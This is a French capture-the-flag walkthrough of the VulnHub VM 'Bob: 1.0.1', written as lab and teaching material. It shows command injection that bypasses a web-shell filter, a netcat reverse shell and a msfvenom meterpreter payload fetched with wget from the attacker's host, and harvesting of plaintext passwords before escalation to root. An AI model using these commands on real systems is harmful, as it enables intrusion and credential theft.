

# Bob: 1.0.1

[Bob: 1.0.1](https://www.vulnhub.com/entry/bob-101,226/) est une machine virtuelle vulnérable, conçue par [c0rruptedb1t](https://www.vulnhub.com/author/c0rruptedb1t,578/) et publiée sur VulnHub au mois de mai 2018. L'objectif, comme toujours, est de trouver et d'exploiter des vulnérabilités sur la VM fournie, afin d'obtenir les privilèges d'administration (root) et de récupérer un flag, preuve de l'intrusion et synonyme de validation du challenge. C'est parti pour ce _walkthrough_ ! Attention, spoilers...

## Synopsis

_Le lycée Milburg a fait l'objet d'une cyber-attaque, obligeant les responsables informatiques à remplacer leur serveur sous Windows par une installation Debian GNU/Linux. L'attaque étant toute fraîche, les contre-mesures le sont tout autant... mais sont-elles efficaces ? Le nouveau système installé serait-il également vulnérable ? À nous de mener l'enquête._

## Recherche d'informations

Pour commencer, l'outil [__netdiscover__](https://github.com/alexxy/netdiscover) est utilisé afin de retrouver l'adresse IP de la VM Bob : il s'agit de 192.168.56.103.

```console
root@blinils:~# netdiscover -r 192.168.56.0/24

Currently scanning: Finished!   |   Screen View: Unique Hosts

3 Captured ARP Req/Rep packets, from 3 hosts.   Total size: 180
_____________________________________________________________________________
  IP            At MAC Address     Count     Len  MAC Vendor / Hostname
-----------------------------------------------------------------------------
192.168.56.1    0a:0b:0c:0d:0e:0f      1      60  Unknown vendor
192.168.56.100  08:00:08:00:08:00      1      60  PCS Systemtechnik GmbH
192.168.56.103  08:00:27:c0:cc:74      1      60  PCS Systemtechnik GmbH
```

Toute phase d'attaque commence par une analyse du système cible. Un scan [__nmap__](https://nmap.org/book/man.html) va nous permettre à la fois d'identifier les services installés sur le serveur, et d'obtenir des informations sur le système d'exploitation. Il est ainsi possible de se connecter à distance avec SSH au serveur Bulldog, mais sur un port non-standard : 25468 au lieu de 22 ; un serveur Web Apache 2.4.25 est par ailleurs installé et en écoute sur le port 80.

```console
root@blinils:~# nmap -sT -sV -p- -A 192.168.56.103
--snip--
PORT      STATE SERVICE VERSION
80/tcp    open  http    Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 4 disallowed entries 
| /login.php /dev_shell.php /lat_memo.html 
|_/passwords.html
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Site doesn't have a title (text/html).
25468/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 84:f2:f8:e5:ed:3e:14:f3:93:d4:1e:4c:41:3b:a2:a9 (RSA)
|   256 5b:98:c7:4f:84:6e:fd:56:6a:35:16:83:aa:9c:ea:f8 (ECDSA)
|_  256 39:16:56:fb:4e:0f:50:85:40:d3:53:22:41:43:38:15 (ED25519)
MAC Address: 08:00:27:C0:CC:74 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
```

Il s'agit bien du site Web du lycée avec, en arrière-plan, l'image d'une jolie bibliothèque à plusieurs étages ; les étudiants ont de la chance s'il s'agit de leur CDI. Bien qu'en construction, quelques pages sont accessibles : ```index.html```, ```news.html```, ```about.html```, ```contact.html``` et ```login.html```.


On apprend dans les news que le directeur du lycée Dean MacDuffy aime manger des sandwichs jambon-fromage et, accessoirement, qu'il a communiqué auprès de ses étudiants sur la cyber-attaque. La page de contact, quant à elle, liste les coordonnées du principal, des conseillers d'éducation et du département informatique, dans lequel figurent Bob J (admin), Sebastian W (seb), Elliot A (elliot) et Joseph C (jc).

Ces informations seront peut-être utiles par la suite, gardons-les de côté au cas où.



En fouillant un peu dans le code source de chaque page, on y trouve des informations intéressantes.

Ainsi, la page ```login.html``` contient en commentaires le message _```<!-- If you are the new IT staff I have sent a letter to you about a web shell you can use -Bob  -->```_ tandis que la page ```news.html``` contient une chaîne encodée en base64 qui, une fois décodée, devient _```In other news some dumbass made a file called passwords.html, completely braindead -Bob```_ ... effectivement, ```passwords.html``` est listé dans le fichier ```robots.txt```, voyons voir s'il recèle de précieux sésames... et malheureusement, non, Bob a dû passer par là et enguirlander ses collègues. Ce n'est effectivement pas une bonne idée de stocker ses mots de passe en clair dans un fichier texte, qui plus est accessible sur le serveur Web. Dans le code source, on trouve également le message suivant...

```html
<!-- N.T.S Get Sticky Notes to Write Passwords in -Bob -->
```

Cela dit, est-ce une meilleure idée d'écrire les mots de passe sur un post-it ? Pas sûr.

```html
Really who made this file at least get a hash of your password to display, hackers can't do anything with
a hash, this is probably why we had a security breach in the first place. Comeon people this is basic 101
security! I have moved the file off the server. Don't make me have to clean up the mess everytime someone
does something as stupid as this. We will have a meeting about this and other stuff I found on the server. >:(
```

```lat_memo.html``` contient un autre message de Bob, toujours sur la sécurité du site Web : _```Hey guys IT here don't forget to check your emails regarding the recent security breach. There is a web shell running on the server with no protection but it should be safe as I have ported over the filter from the old windows server to our new linux one. Your email will have the link to the shell.```_

## À l'assaut du webshell

Hmmmm hmmmmm, voilà qui est délicieux : un _webshell_ est installé sur le serveur Web. Il s'agit d'un script permettant d'interagir avec le serveur et de lui envoyer des commandes. Il y avait déjà un _webshell_ dans l'un des CTF résolus sur ce dépôt, à savoir [bulldog1](/CTF-VulnLabs/bulldog1). Il était alors possible [d'injecter des commandes](https://owasp.org/www-community/attacks/Command_Injection) avant d'exfiltrer des données et de se connecter au serveur. Après quelques essais, voici les données qui ont pu être exfiltrées malgré cette protection. 

```console
Command : ls
Output : Get out skid lol 

Command : ls; id;
Output : Nice try skid, but you will never get through this bulletproof php code

Command : pwd && whoami
Output : Get out skid lol

Command : whoami && pwd
Output : www-data /var/www/html

Command : whoami; pwd;
Output : Nice try skid, but you will never get through this bulletproof php code

Command : id && ls
www-data
WIP.jpg about.html contact.html dev_shell.php dev_shell.php.bak dev_shell_back.png index.html
index.html.bak lat_memo.html login.html news.html passwords.html robots.txt school_badge.png

Command : whoami && cat /etc/passwd
www-data
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
--snip--
c0rruptedb1t:x:1000:1000:c0rruptedb1t,,,:/home/c0rruptedb1t:/bin/bash
bob:x:1001:1001:Bob,,,,Not the smartest person:/home/bob:/bin/bash
jc:x:1002:1002:James C,,,:/home/jc:/bin/bash
seb:x:1003:1003:Sebastian W,,,:/home/seb:/bin/bash
elliot:x:1004:1004:Elliot A,,,:/home/elliot:/bin/bash
sshd:x:116:65534::/run/sshd:/usr/sbin/nologin
proftpd:x:117:65534::/run/proftpd:/bin/false
ftp:x:118:65534::/srv/ftp:/bin/false
```

Le but du jeu consiste à exécuter des commandes auxquelles nous n'avons normalement pas droit. Généralement, l'exploitation de cette vulnérabilité est réalisée à l'aide d'opérateurs logiques ([_control operators_](https://www.w3resource.com/linux-system-administration/control-operators.php) en anglais) : en effet, il est possible d'enchaîner plusieurs commandes à la suite, et la vérification semble n'être réalisée que sur le premier mot / que sur la première commande fournie. Ainsi, si le point-virgule est interdit, d'autres opérateurs logiques peuvent être utilisés afin de contourner les restrictions de ce _Web-Shell_. En outre, le fichier ```/etc/passwd``` nous informe que chaque membre du département informatique possède un compte Unix : root, c0rruptedb1t, bob, jc, seb, elliot.

À présent, il s'agit d'obtenir un véritable accès au serveur !

## Mise en place d'un reverse shell et accès au serveur Bob

Le [_reverse shell_](https://www.asafety.fr/reverse-shell-one-liner-cheat-sheet/) avec [__netcat__](https://nc110.sourceforge.io/) a particulièrement bien fonctionné la première fois.

```nc -lvp 12345``` sur notre machine, ```ls|nc -e /bin/bash 192.168.56.101 12345``` dans le _webshell_.

```console
root@blinils:~# nc -lvp 12345
listening on [any] 12345 ...
192.168.56.103: inverse host lookup failed: Unknown host
connect to [192.168.56.101] from (UNKNOWN) [192.168.56.103] 45822

id
uid=33(www-data) gid=33(www-data) groups=33(www-data),100(users)
```

Cela dit, autant avoir un [meterpreter](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/) sous la main. Le principe est le suivant : un _reverse shell_ en Python va être créé et déposé sur le serveur Bob. Ce bout de code va, dans un premier temps, créer une connexion sur le port 4444 entre le serveur du lycée (192.168.56.103) et notre propre machine (192.168.56.101), avant d'envoyer un meterpreter à travers la connexion créée, qui sera exécuté sur le serveur distant.

```console
root@blinils:~# msfvenom -p python/meterpreter/reverse_tcp LHOST=192.168.56.101 LPORT=4444 -o shell.py
No platform was selected, choosing Msf::Module::Platform::Python from the payload
No Arch selected, selecting Arch: python from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 554 bytes
Saved as: shell.py

root@blinils:~# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
```

De retour sur le _Web-Shell_, le _reverse shell_ Python est déposé sur le serveur via [__wget__](https://www.gnu.org/software/wget/).

```console
Command : id && wget http://192.168.56.101:8000/shell.py -O /tmp/shell.py
uid=33(www-data) gid=33(www-data) groups=33(www-data),100(users)

Command : id && ls /tmp
uid=33(www-data) gid=33(www-data) groups=33(www-data),100(users) shell.py
```

Un listener est alors mis en place sur notre machine, afin d'écouter toute connexion entrante sur le port 4444.

```console
root@blinils:~# service postgresql start
root@blinils:~# msfdb start
root@blinils:~# msfconsole

--snip--
msf > use exploit/multi/handler
msf exploit(multi/handler) > set payload python/meterpreter/reverse_tcp
payload => python/meterpreter/reverse_tcp
msf exploit(multi/handler) > set LHOST 192.168.56.101
LHOST => 192.168.56.101

msf exploit(multi/handler) > exploit -j
[*] Exploit running as background job 0.

[*] Started reverse TCP handler on 192.168.56.101:4444
```

De retour une nouvelle fois sur le _Web-Shell_, le fait de lancer la commande ```id && python /tmp/shell.py``` amorce la connexion.

```console 
msf exploit(multi/handler) > [*] Sending stage (53168 bytes) to 192.168.56.103
[*] Meterpreter session 1 opened (192.168.56.101:4444 -> 192.168.56.103:41370) at 2018-05-08 22:22:22 +0200

msf exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                       Information  Connection
  --  ----  ----                       -----------  ----------
  1         meterpreter python/python               192.168.56.101:4444 -> 192.168.56.103:41370 (192.168.56.103)
```

Il ne nous reste plus qu'à créer un [pseudo-terminal Bash](https://netsec.ws/?p=337) avec le module PTY.

```console
msf exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : Milburg-High
OS              : Linux 4.9.0-4-amd64 #1 SMP Debian 4.9.65-3+deb9u1 (2017-12-23)
Architecture    : x64
System Language : C
Meterpreter     : python/linux

meterpreter > shell
Process 10727 created.
Channel 1 created.
/bin/sh: 0: can't access tty; job control turned off

$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data),100(users)

$ python -c 'import pty; pty.spawn("/bin/bash")'

www-data@Milburg-High:/var/www/html$
www-data@Milburg-High:/var/www/html$ ls   
ls
WIP.jpg        dev_shell.php.bak   lat_memo.html   robots.txt
about.html     dev_shell_back.png  login.html	   school_badge.png
contact.html   index.html	   	   news.html
dev_shell.php  index.html.bak	   passwords.html
```

Partons à la recherche de fichiers intéressants...

## Bob J

```console
www-data@Milburg-High:/home$ ls -al
ls -al
total 24
drwxr-xr-x  6 root   root   4096 Mar  4 13:45 .
drwxr-xr-x 22 root   root   4096 Mar  5 04:50 ..
drwxr-xr-x 18 bob    bob    4096 Mar  8 23:31 bob
drwxr-xr-x 15 elliot elliot 4096 Feb 27 18:38 elliot
drwxr-xr-x 15 jc     jc     4096 May  8 15:08 jc
drwxr-xr-x 15 seb    seb    4096 May  8 14:10 seb

www-data@Milburg-High:/home$ ls -al bob
ls -al bob
total 172
drwxr-xr-x 18 bob  bob   4096 Mar  8 23:31 .
drwxr-xr-x  6 root root  4096 Mar  4 13:45 ..
-rw-------  1 bob  bob   1980 Mar  8 23:31 .ICEauthority
-rw-------  1 bob  bob    214 Mar  8 23:48 .Xauthority
-rw-------  1 bob  bob   6403 Mar  8 23:48 .bash_history
-rw-r--r--  1 bob  bob    220 Feb 21 18:10 .bash_logout
-rw-r--r--  1 bob  bob   3548 Mar  5 01:14 .bashrc
drwxr-xr-x  7 bob  bob   4096 Feb 21 18:15 .cache
drwx------  8 bob  bob   4096 Feb 27 17:56 .config
-rw-r--r--  1 bob  bob     55 Feb 21 18:22 .dmrc
drwxr-xr-x  2 bob  bob   4096 Feb 21 19:48 .ftp
drwx------  3 bob  bob   4096 Mar  5 00:45 .gnupg
drwxr-xr-x  3 bob  bob   4096 Feb 21 18:13 .local
drwx------  4 bob  bob   4096 Feb 21 18:13 .mozilla
drwxr-xr-x  2 bob  bob   4096 Mar  4 14:03 .nano
-rw-r--r--  1 bob  bob     72 Mar  5 04:12 .old_passwordfile.html
-rw-r--r--  1 bob  bob    675 Feb 21 18:10 .profile
--snip--

www-data@Milburg-High:/home$ cat bob/.old_passwordfile.html
cat bob/.old_passwordfile.html
<html>
<p>
jc:Qwerty
seb:T1tanium_Pa$$word_Hack3rs_Fear_M3
</p>
</html>
```

BBB (bah bravo Bob !) il a beau jeu de sermonner ses collègues... alors qu'il a stocké des mots de passe en clair.

```console
jc@Milburg-High:~$ id
id
uid=1002(jc) gid=1002(jc) groups=1002(jc),100(users)

www-data@Milburg-High:/home$ su - jc
su - jc
Password: Qwerty

jc@Milburg-High:~$ 
jc@Milburg-High:~$ id
id
uid=1002(jc) gid=1002(jc) groups=1002(jc),100(users)

jc@Milburg-High:~$ su - seb
su - seb
Password: T1tanium_Pa$$word_Hack3rs_Fear_M3

seb@Milburg-High:~$ 
seb@Milburg-High:~$ id
id
uid=1003(seb) gid=1003(seb) groups=1003(seb),100(users)
```

Et ce n'est pas tout ! Les répertoires de Bob n'ont pas fini de livrer leurs secrets.

```console
www-data@Milburg-High:/home$ ls bob/D*
ls bob/D*
bob/Desktop:

bob/Documents:
Secret	login.txt.gpg  staff.txt

bob/Downloads:
Hello_Again.py	     proftpd-1.3.3c
Wheel_Of_Fortune.py  wallpaper.wiki-HD-Bobcat-Wallpaper-PIC-WPB0014118.jpg
```

```staff.txt``` contient des éléments peu agréables sur chacun des collègues de Bob, et [```login.txt.gpg```](files/login.txt.gpg) est un fichier chiffré : rien à en tirer pour le moment. En revanche, un fichier ```notes.txt``` est présent dans le répertoire ```/home/bob/Documents/Secret/Keep_Out/Not_Porn/No_Lookie_In_Here``` et il contient...

```
#!/bin/bash
clear
echo "-= Notes =-"
echo "Harry Potter is my faviorite"
echo "Are you the real me?"
echo "Right, I'm ordering pizza this is going nowhere"
echo "People just don't get me"
echo "Ohhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhh <sea santy here>"
echo "Cucumber"
echo "Rest now your eyes are sleepy"
echo "Are you gonna stop reading this yet?"
echo "Time to fix the server"
echo "Everyone is annoying"
echo "Sticky notes gotta buy em"
```

Gardons tous ces éléments de côté, tout cela nous sera certainement utile pour la résolution du CTF.

## Elliot A

```console
www-data@Milburg-High:/home$ ls elliot
ls elliot
Desktop    Downloads  Pictures	Templates  theadminisdumb.txt
Documents  Music      Public	Videos

www-data@Milburg-High:/home$ cat elliot/theadminisdumb.txt
cat elliot/theadminisdumb.txt
The admin is dumb,
In fact everyone in the IT dept is pretty bad but I can’t blame all
of them the newbies Sebastian and James are quite new to managing a
server so I can forgive them for that password file they made on the
server. But the admin now he’s quite something. Thinks he knows more
than everyone else in the dept, he always yells at Sebastian and James
now they do some dumb stuff but their new and this is just a high-school
server who cares, the only people that would try and hack into this are
script kiddies. His wallpaper policy also is redundant, why do we need 
custom wallpapers that doesn’t do anything. I have been suggesting time
and time again to Bob ways we could improve the security since he “cares”
about it so much but he just yells at me and says I don’t know what i’m
doing. Sebastian has noticed and I gave him some tips on better securing
his account, I can’t say the same for his friend James who doesn’t care
and made his password: Qwerty. To be honest James isn’t the worst bob
is his stupid web shell has issues and I keep telling him what he needs
to patch but he doesn’t care about what I have to say. it’s only a matter
of time before it’s broken into so because of this I have changed my
password to

theadminisdumb

I hope bob is fired after the future second breach because of his
incompetence. I almost want to fix it myself but at the same time
it doesn’t affect me if they get breached, I get paid, he gets fired
it’s a good time.
```

Et hop, encore un mot de passe, cette fois-ci celui d'elliot.

```console
www-data@Milburg-High:/home/elliot$ su - elliot
su - elliot
Password: theadminisdumb

elliot@Milburg-High:~$ id
id
uid=1004(elliot) gid=1004(elliot) groups=1004(elliot),100(users)
```

Rien à signaler du côté de Sebastian W et Joseph C, alors par où continuer ?

## Un peu de stéganographie dans ce monde de brutes

Une chose est sûre : la clé de la résolution du CTF passe par ce maudit fichier ```login.txt.gpg```, mais aucun des mots de passe trouvés jusqu'à présent ne fonctionne.

```console
root@blinils:~# scp -P 25468 -r -p elliot@192.168.56.103:/home/bob/Documents/login.txt.gpg /root/VM_Bob/login.txt.gpg

elliot@192.168.56.103's password: 
login.txt.gpg                                 100%   91   190.0KB/s   00:00

root@blinils:~# ls
GWUvFch.png  login.txt.gpg  shell.py

root@blinils:~# gpg --output login.txt --decrypt login.txt.gpg
gpg: AES encrypted data
gpg: encrypted with 1 passphrase
gpg: decryption failed: Bad session key
```

La clé doit forcément être sous nos yeux, ou alors extrêmement bien cachée dans un sombre recoin du serveur. Après plusieurs sessions à essayer dix mille trucs, entrecoupées de balades en rollers pour évacuer ma frustration grandissante, j'ai finalement trouvé la passphrase : elle était effectivement bien cachée dans le seul fichier encore non exploité, le fichier ```notes.txt``` de Bob.

(ノ°Д°）ノ︵ ┻━┻

[mode rage=on] grrrr on prend la première lettre de chaque note et ça donne ```HARPOCRATES``` cool c'est le nom d'une divinité égyptienne et super après avoir testé plein de trucs, c'est la bonne passphrase pour ouvrir le fichier ```login.txt.gpg```, du coup on récupère le fichier ```login.txt``` qui contient les credentials de bob puis on se connecte sur le serveur en tant que bob, et comme il a un max de droits car c'est pas la personne la plus fute-fute du staff dixit le fichier ```/etc/passwd```, on passe root sur le serveur avec la commande ```sudo su -``` et hop on affiche le contenu du fichier ```/root/flag.txt``` et c'est gagné, fin du _walkthrough_. [mode rage=off]

Il m'en a fallu du temps pour trouver la passphrase, mais le jeu en valait la chandelle. Merci à [c0rruptedb1t](https://www.vulnhub.com/author/c0rruptedb1t,578/) pour cette VM !
